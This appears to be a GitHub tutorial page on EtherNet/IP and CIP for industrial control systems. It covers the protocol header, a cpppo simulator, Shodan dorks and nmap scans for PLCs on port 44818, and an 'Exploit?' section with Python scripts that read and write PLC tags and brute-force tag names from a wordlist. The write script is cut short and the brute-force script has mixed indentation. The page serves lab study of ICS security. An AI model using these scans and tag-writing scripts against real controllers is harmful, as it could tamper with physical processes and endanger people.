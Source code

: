 ## EtherNet/IP - Theory

![EtherNet/IP OSI Model](docs/ethernetip_osi_model.jpg)

![EtherNet/IP Frame Structure](docs/ethernetip_frame_structure.jpg)

*CIP specifications are quite prescriptive about the packet structure. This means that every EtherNet/IP and CIP device has to comply with the commands within the specifications. The CIP Encapsulation header includes the fields within the EtherNet/IP header:*

![Ethernet/IP CIP Structure](docs/ethernetip_cip_structure.jpg)

  * **Command** - A two-byte integer that relates to a specific command per CIP specification. Within CIP, a device must accept commands that it does not recognize and handle this exception without breaking the connection.
  * **Length** - A two-byte integer that represents the length of the data portion of the packet; this field should be 0 for packets that contain no data, such as for a request packet.
  * **Session Handle** - The Session Handle is generated by the target device and returned to the originator of the session. This handle will be utilized in future communications with the target device.
  * **Status** - This status reflects the ability of the receiver of the packet to execute the given command that was sent. A 0 reflects the successful completion of the command. In all request packets, the status is 0. Other status code responses include
    * **0x0001** -> Invalid or unsupported command
    * **0x0002** -> Insufficient resources in the receiver to handle the command
    * **0x0003** -> Poorly formed or incorrect data
    * **0x0065** -> Received invalid data length
  * **Sender Context** -> The sender of the command will generate this six-byte value, and the receiver will return this value unchanged.
  * **Options** -> This value should always be 0; if it’s not 0, the packet will be discarded.
  * **Command-specific data** -> This field changes based on the command itself that was received and sent.

Quoted from *HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions by C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*

### EtherNet/IP Simulator

To install a python implementation of EtherNet/IP Stack in a Ubuntu VM:

``` 
$ sudo -H pip install --upgrade cpppo
$ python -m cpppo.server.enip -v
python -m cpppo.server.enip -v
12-16 01:53:33.461 MainThread root     NORMAL   main       Loaded config files: []
12-16 01:53:33.461 MainThread enip.srv NORMAL   main       Delaying all responses by 0.0 seconds
12-16 01:53:33.462 MainThread root     NORMAL   main       EtherNet/IP Simulator: ('', 44818)
12-16 01:53:33.462 MainThread network  NORMAL   server_mai enip_srv server PID [26261] running on ('', 44818)
12-16 01:53:33.462 MainThread network  NORMAL   server_mai enip_srv server PID [26261] responding to external done/disable signal in object 139661755723408
12-16 01:53:33.462   Thread-1 enip.srv NORMAL   enip_srv   EtherNet/IP Server enip_UDP begins serving peer None
``` 

or start this way to enable an array of 1000 INT values. Tag is called *SCADA*:

``` 
python -m cpppo.server.enip SCADA=INT[1000] -v
``` 

### Dorks and detection

Use these to get started with shodan then you can extend fingerprints based on results!

``` 
Device type: Communications Adapter
port:44818
```

Usually, service is on port **44818 TCP** or sometime on **2222 UDP**. To discover devices in a specific subnet, nMap scan should look like:

``` 
$ nmap -p44818 172.16.252.1/24

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-16 11:58 EET

Nmap scan report for 172.16.252.134
Host is up (0.00062s latency).
PORT      STATE SERVICE
44818/tcp open  unknown
``` 

or use a passivie method to scan for live hosts then check ports: [scan.md](../scan.md)

and if you want to analyze the service itself: https://nmap.org/nsedoc/scripts/enip-info.html


``` 
$ nmap 172.16.252.134 -p 44818 --script=enip-info

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-16 11:55 EET
Nmap scan report for 172.16.252.134
Host is up (0.00028s latency).
PORT      STATE SERVICE
44818/tcp open  EtherNet-IP-2
| enip-info: 
|   Vendor: Rockwell Automation/Allen-Bradley (1)
|   Product Name: 1756-L61/B LOGIX5561
|   Serial Number: 0x006c061a
|   Device Type: Programmable Logic Controller (14)
|   Product Code: 54
|   Revision: 20.11
|_  Device IP: 0.0.0.0
``` 

To go deeper, check this out: https://github.com/paperwork/pyenip

### Exploit?

1. Use *RSLogix 5000 Software* - it will allow you to perform some direct operations and even rewrite firmware.

2. Use *cpppo* to read/write tags:

**Write a specific tag:**

```python
#!/usr/bin/env  python2

from cpppo.server.enip import client
import time

host = "192.168.179.131"
tags = [ "SCADA[13]", "SCADA[2]=(INT)37" ]

with client.connector( host=host ) as conn:
    for index,descr,op,reply,status,value in conn.pipeline(
            operations=client.parse_operations( tags ), depth=2 ):
``` 

**Read a specific tag:**

The trick in reading is that you have to already know the name of the tag you want to read! In the example, the tag name is "SCADA", the one used when simulator was started!

```python
#!/usr/bin/env  python2

from cpppo.server.enip import client
import time

host = "192.168.179.131"
tags = [ "SCADA[1]", "SCADA[2]" ]

with client.connector( host=host ) as conn:
    for index,descr,op,reply,status,value in conn.pipeline(
            operations=client.parse_operations( tags ), depth=2 ):
        print( "%s: %20s: %s" % ( time.ctime(), descr, value ))
```

The only difference is the *line 7*, where the value is defined!

**Find new tags using broute force**

```python
#!/usr/bin/env  python2

from cpppo.server.enip import client

host = "192.168.179.131"

with open('tagNames.txt') as f:
    tags = f.read().splitlines()                    # read all the tag names in the dictionary file, 
                                                    # stripping of newlines
with client.connector( host=host ) as conn:
    for tag in tags:
        req = conn.read( tag + '.ACC')              # adding .ACC to avoid errors on not DINT type tags

        assert conn.readable(timeout=1.0), "Failed to receive reply"

        reply = next(conn)
        for k, v in reply.items():                  # Scan through the Key and Value pairs returned
            if str(k).endswith('status'):
				if (v == 5):                        # Found a valid tag if the transaction status is 5 
                    print tag + " is a valid tag"
```

where *tagNames.txt* is a list of possible tags, one per line:

```
motor
pump
tank
valve
actuator
power
circuit
room
grid
panel
control
john
cena
password
username
user
pass
secret
safe
key
hidden
```

#### Conclusions

Resources and bibliography:

  * **Industrial Cybersecurity - Efficiently secure critical infrastructure systems** by *Pascal Ackerman*
  * **HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions** by *C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*
  * Introduction into ICSs world: https://www.myplctraining.com/beginners-plc-overview-part-1-of-4-introduction-to-plcs/